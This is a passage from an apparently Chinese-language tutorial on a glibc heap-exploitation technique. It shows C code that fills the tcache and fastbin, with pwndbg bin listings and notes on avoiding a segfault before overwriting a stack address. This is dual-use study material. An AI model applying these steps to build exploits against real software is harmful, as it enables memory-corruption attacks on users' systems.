 然后我们释放掉7个堆块让其进入tcachebin：

```c
  // Fill the tcache.
  for (i = 0; i < 7; i++) {
    free(ptrs[i]);
  }
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1619260706700-96a6a92a-7bf6-42dd-a93b-4505a79d70cc.png)

```c
  char* victim = ptrs[7]; //victim是我们要控制的地方
  free(victim); //当我们free victim之后其会被放到fastbin中(victim是第一个进入fastbin的堆块)
```

结果如下：

```c
pwndbg> bin
tcachebins
0x50 [  7]: 0x555555757440 —▸ 0x5555557573f0 —▸ 0x5555557573a0 —▸ 0x555555757350 —▸ 0x555555757300 —▸ 0x5555557572b0 —▸ 0x555555757260 ◂— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x555555757480 ◂— 0x0
      #victim
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> 
```

## 避免触发程序的段错误
接下来是重点，因为此处处理不好会触发程序的段错误：

```c
  printf(
    "Next we need to free between 1 and 6 more pointers. These will also go\n"
    "in the fastbin. If the stack address that we want to overwrite is not zero\n"
    "then we need to free exactly 6 more pointers, otherwise the attack will\n"
    "cause a segmentation fault. But if the value on the stack is zero then\n"
    "a single free is sufficient.\n\n"
  );

  // Fill the fastbin.
  for (i = 8; i < 14; i++) { //接下来我们释放堆块以填充fastbin
    free(ptrs[i]);
  }
```
